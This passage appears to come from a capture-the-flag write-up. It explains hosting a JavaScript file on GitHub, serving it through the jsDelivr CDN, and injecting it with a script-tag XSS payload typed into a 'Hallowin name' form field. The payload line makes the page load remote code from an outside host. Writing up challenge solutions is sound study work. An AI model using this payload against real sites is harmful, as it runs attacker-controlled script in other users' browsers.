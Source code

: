 ![5-jsdelivr-github.png](./static/5-jsdelivr-github.png)

if I go to https://cdn.jsdelivr.net/gh/xmagor/test@main/xss_test1.js, i see the same file that i write
> Note that after do it the challenge i delete that repostiorie, so the link already doesn't work

The docs says that in production is not necesary to use `@main` (refer to a git branch) so i only use https://cdn.jsdelivr.net/gh/xmagor/test/xss_test1.js in a `<script>` tag.

Payload:
```
<script src="https://cdn.jsdelivr.net/gh/xmagor/test/xss_test1.js "></script>
```

Write it in the `Hallowin name` field, and send it